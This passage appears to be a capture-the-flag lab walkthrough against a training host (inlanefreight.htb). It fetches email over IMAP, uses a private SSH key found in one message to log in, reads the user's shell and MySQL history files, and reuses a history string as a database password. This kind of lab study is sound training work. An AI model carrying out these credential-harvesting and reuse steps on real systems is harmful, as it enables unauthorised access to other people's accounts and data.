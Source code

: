     1 SELECT Notes
    # 0 EXISTS
    # no content inside
    
    1 UNSELECT Notes

    # similarly check other folders

    1 SELECT Inbox
    # 1 EXISTS

    1 FETCH 1 RFC822
    # fetch 1st mail
    ```
  
  * The email, sent from Admin <tech@inlanefreight.htb> to Tom <tom@inlanefreight.htb> with the subject 'Key', contains an ```id_rsa``` key - we can copy this to our system and try SSH login

    ```sh
    vim id_rsa
    # paste key

    chmod 600 id_rsa

    ssh tom@10.129.202.20 -i id_rsa
    # we are able to login

    ls -la
    # we can check the history files

    cat .bash_history

    cat .mysql_history
    ```
  
  * The file ```.mysql_history``` shows the string "_HiStOrY_V2_" - we can check this as a password as well for ```mysql``` login:

    ```sh
    mysql -u tom -p
    # use above password
    # it works
